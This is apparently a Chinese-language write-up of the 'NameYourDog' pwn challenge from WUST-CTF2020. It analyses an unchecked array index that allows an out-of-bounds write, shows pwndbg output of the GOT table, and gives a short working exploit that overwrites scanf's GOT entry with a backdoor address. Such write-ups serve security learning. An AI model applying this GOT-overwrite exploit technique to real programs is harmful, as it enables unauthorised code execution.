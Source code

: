 
## NameYourDog
- 题目描述：
    
    > Author: ColdShield
- 题目附件：[NameYourDog](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/NameYourDog/NameYourDog)
- 考察点：数组越界
- 难度：简单
- 初始分值：1000
- 最终分值：995
- 完成人数：5

### 程序分析

程序流程如下：

```
   __  ___    ______   ___    
  /  |/  /__ /_  __/__<  /_ __
 / /|_/ / _ `// / / __/ /\ \ /
/_/  /_/\_,_//_/ /_/ /_//_\_\ 

I bought you five male dogs.Name for them?
Name for which?
>1
Give your name plz: Imagin
You get 1 dogs!!!!!!
Whatever , the author prefers cats ^.^
His name is:Imagin

```

就是可以给狗狗起名字，好像一共可以给五只狗狗起名字。

漏洞在起名字函数这里，程序没有检查`Dogs`数组的`index`是否合法：

```c
int vulnerable(){
// ...
	v1 = NameWhich((int)&Dogs);
// ...
}
int __cdecl NameWhich(int a1){
  int index; // [esp+18h] [ebp-10h]
  unsigned int v3; // [esp+1Ch] [ebp-Ch]
  v3 = __readgsdword(0x14u);
  printf("Name for which?\n>");
  __isoc99_scanf("%d", &index);
  printf("Give your name plz: ");
  __isoc99_scanf("%7s", 8 * index + a1);
  return index;
}
```

因此可以造成数组的越界写。

### 解题思路

`Dogs`位于bss段，距离程序GOT表很近，因此可以考虑改函数的GOT表为后门地址。 

```nasm
pwndbg> p &Dogs 
$1 = (<data variable, no debug info> *) 0x804a060 <Dogs>

pwndbg> got
GOT protection: Partial RELRO | GOT functions: 8
[0x804a00c] printf@GLIBC_2.0 -> 0x8048446 (printf@plt+6) ◂— push   0 /* 'h' */
[0x804a010] alarm@GLIBC_2.0 -> 0xf7e92480 (alarm) ◂— mov    edx, ebx
[0x804a014] __stack_chk_fail@GLIBC_2.4 -> 0x8048466 (__stack_chk_fail@plt+6) ◂— push   0x10
[0x804a018] puts@GLIBC_2.0 -> 0xf7e3a210 (puts) ◂— push   ebp
[0x804a01c] system@GLIBC_2.0 -> 0x8048486 (system@plt+6) ◂— push   0x20 /* 'h ' */
[0x804a020] __libc_start_main@GLIBC_2.0 -> 0xf7deb660 (__libc_start_main) ◂— call   0xf7f0a689
[0x804a024] setvbuf@GLIBC_2.0 -> 0xf7e3a860 (setvbuf) ◂— push   ebp
[0x804a028] __isoc99_scanf@GLIBC_2.7 -> 0x80484b6 (__isoc99_scanf@plt+6) ◂— push   0x38 /* 'h8' */
```

`scanf`函数会在给下一只狗狗起名字的时候调用，所以选择改写`scanf`的got表即可

偏移量：`(0x804a028-0x804a060)/8=-7`

### exp

```python
shell = p32(0x080485CB)
sla('>','-7')
sla('Give your name plz: ',shell)
```

